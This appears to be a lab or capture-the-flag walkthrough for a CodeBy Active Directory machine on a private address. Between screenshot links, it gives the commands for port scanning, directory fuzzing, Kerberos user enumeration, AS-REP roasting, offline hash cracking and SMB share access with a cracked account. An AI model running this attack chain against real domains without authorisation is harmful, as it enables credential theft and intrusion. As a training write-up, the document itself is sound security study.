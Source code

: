 ![image](https://github.com/stensil4rt/CodeBy/assets/62753044/9b1a1fa1-3977-465a-936d-aabb7f6ec6b1)
```
nmap -p- 192.168.2.5 -v -sC -sV -sT
```
![image](https://github.com/stensil4rt/CodeBy/assets/62753044/dc38f948-3fbc-41eb-b06d-d646b90d74f6)

![image](https://github.com/stensil4rt/CodeBy/assets/62753044/c0709d19-35c3-467f-9171-a6d9ca956d2b)
```
ffuf -u http://192.168.2.5/FUZZ -w /home/kali/PayloadsAllTheThings/payloads/owasp/dirbuster/directory-list-2.3-medium.txt
```
![image](https://github.com/stensil4rt/CodeBy/assets/62753044/02645807-6241-44a2-b4be-3a669b84d2d3)

![image](https://github.com/stensil4rt/CodeBy/assets/62753044/ae52dfd7-4a15-4c67-880f-f50fbd7c42b8)

![image](https://github.com/stensil4rt/CodeBy/assets/62753044/b628ccdc-b505-40d4-86b4-c505a90cb525)
```
./kerbrute_linux_amd64 userenum -d codeby.cdb --dc 192.168.2.5 user.txt
```
![image](https://github.com/stensil4rt/CodeBy/assets/62753044/48a61bd2-5566-4a3b-86d6-e86e199ed03c)
```
impacket-GetNPUsers codeby.cdb/ -dc-ip 192.168.2.5 -usersfile user.txt -format hashcat -outputfile user-hashes.txt
```
![image](https://github.com/stensil4rt/CodeBy/assets/62753044/3274c1ab-228c-432f-afaf-0f2b3b95b055)
```
john --wordlist=/home/kali/PayloadsAllTheThings/rockyou.txt user-hashes.txt
```
![image](https://github.com/stensil4rt/CodeBy/assets/62753044/c3dbbd25-a7cb-4df1-90cf-306ec7ee6856)
```
smbmap -u "a.fedotov" -p "PASS" -d codeby.cdb -H 192.168.2.5
```
![image](https://github.com/stensil4rt/CodeBy/assets/62753044/ec7ae321-e8f1-4620-8c10-b6059add3170)
```
smbclient '//192.168.2.5/Andrey Fedotov' -U a.fedotov
```
![image](https://github.com/stensil4rt/CodeBy/assets/62753044/7e7ee330-c368-4a6c-9f74-dc08b3263b32)

```
enum4linux-ng 192.168.2.5 -u 'a.fedotov' -p 'PASS'
```
![image](https://github.com/stensil4rt/CodeBy/assets/62753044/2c99b7f1-94f0-475d-8163-bb398f225231)
```
impacket-GetNPUsers codeby.cdb/ -dc-ip 192.168.2.5 -usersfile user.txt -format hashcat -outputfile user-hashes2.txt
```
![image](https://github.com/stensil4rt/CodeBy/assets/62753044/4e580e62-e0b0-4c19-a4e2-0c6d93dc0779)
